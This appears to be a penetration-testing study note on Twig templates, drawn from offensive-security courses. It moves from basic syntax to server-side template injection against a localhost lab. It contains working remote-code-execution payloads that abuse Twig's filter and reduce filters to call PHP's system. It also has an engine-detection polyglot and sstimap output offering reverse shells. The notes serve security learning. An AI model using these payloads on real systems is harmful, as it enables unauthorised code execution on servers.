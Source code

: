 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Twig

## Syntax

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

PHP does not check data types, thus, treats strings as numbers. Both the examples below will be evaluated to `25`.

```twig
{{5*5}} 
{{5*'5'}}
```

A unique piece of Twig syntax is using `-` to trim whitespace.

```twig
{{-name-}}
```

A `for` loop.

```twig
{% raw %}
{% for product in cart %}
Widget
	Price:	${{product.price}}
	Quanity: {{product.quantity}}
	Total: 	${{product.quantity * product.price}}
{% endfor %}
{% endraw %}
```

A `if` statement and the use of the `capitalize` filter.

```twig
<h1>{% raw %}
{% if not admin %}sudo {% endif %}
{% endraw %}make me a sandwich, {{name|capitalize}}!</h1>
```

## SSTI

### filter

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 1).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_1.png" alt=""><figcaption><p>Figure 1: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined [previously ](twig.md#manual)(Figure 2). Twig uses PHP which does not check the variable type and as a result it treats `7` and `'7'` the same.

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><img src="../../../.gitbook/assets/web_ssti_basic_1.png" alt=""><figcaption><p>Figure 2: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed a server-side and not a client-side template injection, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig), in this case leveraging the [`filter`](https://twig.symfony.com/doc/3.x/filters/filter.html) filter, and achieve RCE[^1] (Figure 3).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_2.png" alt=""><figcaption><p>Figure 3: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```
{% endcode %}

### reduce

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Another filter we can leverage is the [`reduce`](https://twig.symfony.com/doc/3.x/filters/reduce.html) filter which takes an arrow function and an initial value as arguments (Figure 4).

```twig
{{[0]|reduce('var_dump','Hello')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_reduce_1.png" alt=""><figcaption><p>Figure 4: Testing the <code>reduce</code> filter.</p></figcaption></figure>

We can replace the arguments with something that executes system commands, such as PHP's [`system`](https://www.php.net/manual/en/function.system.php) function and achieve RCE (Figure 5).

```twig
{{[0]|reduce('system','whoami')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_reduce_2.png" alt=""><figcaption><p>Figure 5: Leveraging the <code>reduce</code> filter to achieve RCE.</p></figcaption></figure>

[^1]: Remote Code Execution
